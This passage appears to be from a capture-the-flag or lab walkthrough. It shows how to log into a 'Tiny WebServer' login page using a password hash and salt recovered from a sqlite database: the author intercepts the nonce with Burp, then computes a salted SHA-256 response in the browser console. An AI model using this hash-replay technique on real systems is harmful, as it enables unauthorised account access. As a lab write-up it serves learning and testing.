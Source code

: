 Next open up burp and intercept a login request with any password. Then right click the request and select `Do Intercept: Response to this request`. When you send that request the response will contain the generated nonce and the static salt. 

```json
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate, max-age=0
Date: Wed, 28 Aug 2024 22:37:04 GMT
Content-Length: 140
Content-Type: application/json
Server: Tiny WebServer
Connection: close
Set-Cookie: session-nonce=LxHJjjSzJkFpWtQY9tSBt%2FkXsqSg%2BaUPdvEqcszYzEQ%3D; expires=Wed, 28 Aug 2024 22:47:04 GMT;path=/; 

{
  "Status": "OK",
  "Nonce": "LxHJjjSzJkFpWtQY9tSBt/kXsqSg+aUPdvEqcszYzEQ=",
  "Salt": "xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I="
}
```

We can double check here to see if the salt matched the sqlite3 database. Next is the fun transforming the data part. As per the issue on github it needs to go from base64 to hex (we'll discuss that wording a bit later). The following commands can be run inside the dev console in firefox of chrome to generate the nonced and salted passphrase.

```javascript
var saltedpwd = '57 62 36 65 38 35 35 4c 33 73 4e 39 4c 54 61 43 75 77 50 58 75 61 75 74 73 77 54 49 51 62 65 6b 6d 4d 41 72 37 42 72 4b 32 48 6f 3d'  

undefined  

var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('LxHJjjSzJkFpWtQY9tSBt/kXsqSg+aUPdvEqcszYzEQ=') + saltedpwd)).toString(CryptoJS.enc.Base64);  

undefined

console.log(noncedpwd)  

2ic0heA7qiXBUBRvxr/TDGllRl5DCAIX+3Gu0qaMwFE= [debugger eval code:1:9](chrome://devtools/content/webconsole/debugger eval code)
```

Grab that output and urlencode it then send it in the password parameter as part of the login request previously accepted. This try did not work however. I misread and misunderstood what base64 to hex meant. It needs to be base64 decoded, then encoded into hex with no spaces. Below is the proper output that gets me access.

```bash
var saltedpwd = '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a'  

undefined  

var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('VCLWPbfPo+9+re7YnNDau6k53XNiWugWZMotH5JnGMU=') + saltedpwd)).toString(CryptoJS.enc.Base64);  

undefined  

console.log(noncedpwd)  

aGTImE9FgmRBSjE7T6jVgCOLnuGQ6c9CFQJB5eh12x8=
```
